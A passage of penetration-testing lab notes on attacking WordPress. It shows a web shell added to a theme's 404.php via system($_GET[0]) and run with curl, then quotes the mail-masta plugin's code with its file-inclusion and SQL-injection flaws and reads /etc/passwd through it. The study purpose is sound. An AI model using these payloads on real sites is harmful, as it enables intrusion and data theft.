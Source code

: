 we add `system($_GET[0]);` in the code after comment and to execute it at `/wp-content/themes/<theme name>`

```shell-session
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

**Vulnerable Plugins - mail-masta**

* [mail-masta](https://wordpress.org/plugins/mail-masta/) is no longer supported but has had over 2,300 [downloads](https://wordpress.org/plugins/mail-masta/advanced/) over the years.
* Since 2016 it has suffered an [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

vulnerable code for the mail-masta plugin

```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

* `pl` parameter allows us to include a file without any type of input validation
* we can include arbitrary files on the webserver

```shell-session
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<SNIP>
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false<>
```
